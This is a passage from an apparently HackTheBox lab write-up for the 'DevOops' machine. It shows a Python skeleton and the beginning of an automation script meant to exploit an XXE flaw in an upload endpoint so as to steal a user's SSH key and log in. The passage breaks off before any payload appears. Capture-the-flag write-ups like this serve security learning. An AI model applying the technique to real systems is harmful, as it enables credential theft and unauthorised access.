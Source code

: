 Sure, now let's connet with it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2002:54:41.png)

Now, let's automate it.

# Auto Shell Roosa

First, we will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-19-HackTheBox-DevOops/2021-09-19-HackTheBox-DevOops%2003:10:42.png)

auto_roosa.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto XEE in DevOops to retrieve the ssh key from roosa user and auto connect

import argparse
import requests
import sys
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

#Function to XEE the ROOSA ssh key
def getXEEKey(rhost):
    print("[+] Let's get the roosa ssh key !!! [+]")
    url = "http://%s:5000/upload" %rhost
    headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Content-Type": "multipart/form-data; boundary=---------------------------830128796004521931929284550"}
```